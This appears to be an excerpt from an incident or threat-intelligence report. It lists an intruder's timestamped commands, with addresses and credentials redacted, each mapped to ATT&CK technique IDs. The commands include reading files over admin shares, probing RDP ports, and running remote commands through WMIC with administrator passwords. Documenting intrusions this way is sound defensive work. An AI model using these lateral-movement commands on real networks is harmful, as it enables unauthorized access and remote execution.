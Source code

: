 
16:15:28
dir \<redacted IP #1>\c$\windows\temp\*txt
T1083, T1021.002


16:15:36
type \<redacted IP #1>\c$\windows\temp\ww.txt
T1039, T1021.002


16:17:54
powershell -c Test-NetConnection -ComputerName <redacted IP #1> -Port 3389
T1046, T1059.001


16:19:28
powershell -c Test-NetConnection -ComputerName <redacted IP #2> -Port 3389
T1046, T1059.001


16:19:32
wmic /node:"<redacted IP #1>" /user:<redacted domain>\<redacted username #2> /PASSWORD:<redacted password #1> process call create "cmd /c powershell -c Test-NetConnection -ComputerName <redacted IP #2> -Port 3389 > c:\windows\temp\r.txt"
T1046, T1047, T1059.001, T1021.001


16:20:00
type \<redacted IP #1>\C$\windows\temp\r.txt
T1039, T1021.002


16:20:34
ping -n 1 -a <redacted IP #2>
T1018


16:21:29
wmic /node:"<redacted IP #2>" /user:administrator /PASSWORD:"<redacted password #2>" process call create "cmd.exe /c whoami"
T1047, T1033


16:22:06
wmic /node:"<redacted IP #2>" /user:administrator /PASSWORD:"<redacted password #2>" process call create "cmd.exe /c whoami"
T1047, T1033


16:22:59
net use
T1021.002


16:23:07
dir \<redacted IP #1>\C$\windows\temp\*.txt
T1083, T1021.002


16:23:16
type \<redacted IP #1>\C$\windows\temp\teredo.txt
T1039, T1021.002
